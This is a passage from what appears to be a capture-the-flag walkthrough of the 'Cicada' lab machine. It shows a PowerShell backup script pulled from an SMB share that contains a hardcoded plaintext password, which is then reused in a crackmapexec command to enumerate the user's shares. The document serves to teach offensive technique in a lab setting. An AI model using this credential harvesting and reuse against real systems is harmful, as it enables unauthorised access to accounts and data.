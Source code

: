 Lets `get` the Backup file and see what is in it.

```bash
get Backup_script.ps1
```

📄 Backup script contains:

```
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Backup sorted this is what we need

```powershell
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt"
```

---

### WinRM Shell as Emily

let's be sure and check Emily her shares.

```powershell
crackmapexec smb cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' --shares
```

![emilyshares](docs/admin$emily%20stap%2011.png)
